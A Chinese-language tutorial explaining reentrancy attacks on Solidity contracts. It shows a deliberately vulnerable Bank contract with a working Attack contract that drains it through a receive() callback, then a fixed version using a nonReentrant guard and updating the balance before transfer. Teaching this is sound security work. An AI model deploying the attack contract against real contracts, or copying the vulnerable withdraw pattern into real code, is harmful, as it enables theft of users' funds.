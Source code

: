 #### 理解概念：
- "重入攻击"，顾名思义，重复执行逻辑而造成的攻击。
- 广义上，重入指的是，合约A在调用合约B时，合约B又回调合约A的某个函数。
- 即将讨论的示例，重入攻击，指的是"重复执行转账操作，而造成资金损失的攻击"。
- 我理解的攻击机制：利用合约函数对于"单次函数的调用"，没有进行"严格的开闭检查"，而达成的重复进入逻辑。


　

##### 攻击成功示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
    演示 重入攻击 - 成功
*/

contract Bank {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 转账 ether，完全不防范重入攻击，裸写转账
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");

        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

##### 攻击失败(防御成功)的示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

/*
    演示 重入攻击 - 防御
*/

abstract contract ReentrancyGuard {
    uint256 private constant NOT_ENTERED = 1;
    uint256 private constant ENTERED = 2;

    uint256 private _status;

    error ReentrancyGuardReentrantCall();

    constructor() {
        _status = NOT_ENTERED;
    }

    modifier nonReentrant() {
        _nonReentrantBefore();
        _;
        _nonReentrantAfter();
    }

    function _nonReentrantBefore() private {
        if (_status == ENTERED) {
            revert ReentrancyGuardReentrantCall();
        }

        _status = ENTERED;
    }

    function _nonReentrantAfter() private {
        _status = NOT_ENTERED;
    }

    function _reentrancyGuardEntered() internal view returns (bool) {
        return _status == ENTERED;
    }
}

contract Bank is ReentrancyGuard {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}    

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external nonReentrant {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 先更新余额
        balanceOf[msg.sender] = 0;

        // 转账 ether，此时，已经有防御了
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) payable {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

#### 总结一下：
- 作恶者利用"银行合约"执行```msg.sender.call()```的时候，会重新回到"攻击合约"的```receive()```函数的机制，进而在```receive()```中编写"恶意代码"，最终达成重复进行"银行合约"执行转账行为。
- 防御原理：编写"禁止重入的修饰器"(```nonReentrant```)，且，规规矩矩提前执行```balanceOf[msg.sender] = 0```(其实，这也符合常见的商业逻辑执行顺序，"先扣用户的钱，再给用户提供利益")。
- 值得一提的是：在Solidity和以太坊智能合约中，没有传统意义上的多线程机制，而，所有的函数调用都在一个区块链网络的共识机制下顺序执行。
- 在作恶者"重入攻击"被成功防御的时候，remix测试层面上，会把错误最终提现在"最外围的异常"，也就是```msg.sender.call```的执行下一行，即```require(success, "Failed to send Ether")```；并没有直接在```revert ReentrancyGuardReentrantCall()```错误处异常哦。